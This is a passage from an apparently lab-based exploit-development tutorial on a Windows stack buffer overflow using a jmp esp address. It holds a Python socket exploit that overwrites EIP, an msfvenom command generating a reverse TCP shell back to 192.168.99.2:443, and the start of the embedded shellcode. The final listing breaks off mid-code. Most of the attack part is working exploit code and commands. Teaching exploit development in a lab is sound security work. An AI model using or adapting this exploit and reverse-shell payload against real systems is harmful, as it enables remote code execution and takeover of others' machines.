 {% hint style="info" %}
Remember the memory address of `jmp esp` - `7798BD1B` - we will need it soon for the exploit code.
{% endhint %}

## Exploit Skeleton

Let's now build a quick python exploit code skeleton:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"RETN"

# shellcode
buf += b"SHELLCODE"

# send payload
sock.send(buf)
sock.close()
```

...and execute it against the vulnerable server to confirm everything still works as expected and that we see:

* the `RETN` value in the EIP register&#x20;
* the string `SHELLCODE` next to the `RETN`

![Python exploit skeleton confirmed that everything works as expected](<../../../.gitbook/assets/image (823).png>)

### Generating Shellcode

Let's generate a shellcode for a simple reverse tcp shell (it will connect back to `192.168.99.2:443`) for python:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python
```

![msfvenon generates shellcode for a tcp reverse shell](<../../../.gitbook/assets/image (792).png>)

Add it to the python exploit skeleton and replace the `RETN` on line 11 with the memory address containing `jmp esp`, which is `7798BD1B` (as usual, mind the endianness) in my case:

{% code title="exploit.py" %}
```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with address containing jmp esp instructions (inside ntdll.dll in my case)
buf += b"\x1b\xbd\x98\x77"

# shellcode
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
```